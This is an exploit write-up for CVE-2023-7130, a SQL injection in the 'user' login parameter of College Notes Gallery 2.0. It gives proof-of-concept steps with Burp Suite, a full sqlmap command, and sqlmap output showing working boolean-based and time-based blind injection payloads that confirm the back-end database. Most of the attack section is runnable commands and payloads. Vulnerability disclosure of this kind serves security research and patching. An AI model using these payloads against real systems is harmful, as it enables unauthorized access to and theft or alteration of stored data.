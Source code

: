 # CVE-2023-7130_College_Notes_Gallery-SQL_Injection
+ **Exploit Title:** CVE-2023-7130_College_Notes_Gallery-SQL_Injection
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevbens
+ **Vendor Homepage:** https://code-projects.org/college-notes-gallery-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/COLLEGE_NOTES_GALLERY_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 2.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2023-7130

## References: 
+ **CVE-2023-7130:** https://vuldb.com/?id.249133
+ https://www.cve.org/CVERecord?id=CVE-2023-7130

## Description:
College Notes Gallery 2.0 allows SQL Injection via parameter 'user' in "/notes/login.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the login page: "http://localhost/notes/login.php"
+ Fill the username and password then click 'login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'user' parameter to dump the database. 
```
sqlmap -r r.txt -p user --risk 3 --level 5 --threads 1 --random-agent tamper=randomcase --dbms mysql --batch --current-db
```

```
---
Parameter: user (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: user=test' OR NOT 7621=7621-- SdON&pass=test&login=login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=test' AND (SELECT 6983 FROM (SELECT(SLEEP(5)))KqgU)-- Reeu&pass=test&login=login
---
[16:16:28] [INFO] testing MySQL
[16:16:28] [INFO] confirming MySQL
[16:16:28] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[16:16:28] [INFO] fetching current database
[16:16:28] [INFO] resumed: notes
current database: 'notes'
```

+ current database: `notes`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/16752d90-2918-4777-884a-131dcd93b06e)
